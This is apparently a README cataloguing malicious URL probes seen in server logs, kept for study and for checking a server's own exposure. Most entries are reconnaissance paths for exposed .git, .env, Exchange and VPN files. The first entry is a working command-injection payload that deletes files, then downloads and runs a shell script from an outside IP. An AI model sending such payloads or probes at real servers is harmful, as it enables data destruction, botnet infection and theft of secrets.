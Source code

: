 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server ( Must add paths on your own ).
## ATTEMPTS & FILE SCANS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)

2. ../autodiscover/autodiscover.json?@zdi/Powershell

3. ../owa/auth/x.js

4. ../backup/.git/config

5. ../log/.git/config

6. ../doc/.git/config

7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com

8. ../Telerik.Web.UI.WebResource.axd?type=rau

9. ../WebInterface/

10. ../sugar_version.json

11. ../icons/sphere1.png

12. ../static/historypage.js

13. ../cgi-bin/authLogin.cgi

14. ../remote/login

15. ../sitecore/shell/sitecore.version.xml

16. ../js/NewWindow_2_all.js

17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js

18. ../showLogin.cc

19. ../webfig/

20. ../cgi-bin/config.exp

21. ../solr/

22. ../api/session/properties

23. ../.env

24. ../owa/auth/logon.aspx

25. ../Temporary_Listen_Addresses

26. ../ews/exchanges/

27. ../ews/exchange%20/

28. ../ews/autodiscovers/

29. ../autodiscover/autodiscover%20/

30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application

31. ../actuator/health

32. ../+CSCOE+/logon.html

33. ../dana-na/auth/url_default/welcome.cgi

34. ../global-protect/login.esp

```
## Shadow Server Scans ( Unknown Reason ) (shadowserver.org)
```
1. ../vpn/index.html

2. ../geoserver/web/

3. ../.git/config

4. ../favicon.ico
```
## Linkedin Scans ( Not Hacks )
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png

2. ../robots.txt
```

## Google Scans ( Not Hacks )
```
1. ../xmlrpc.php?rsd

2. ../wlwmanifest.xml  ( Microsoft Live Writer )
```
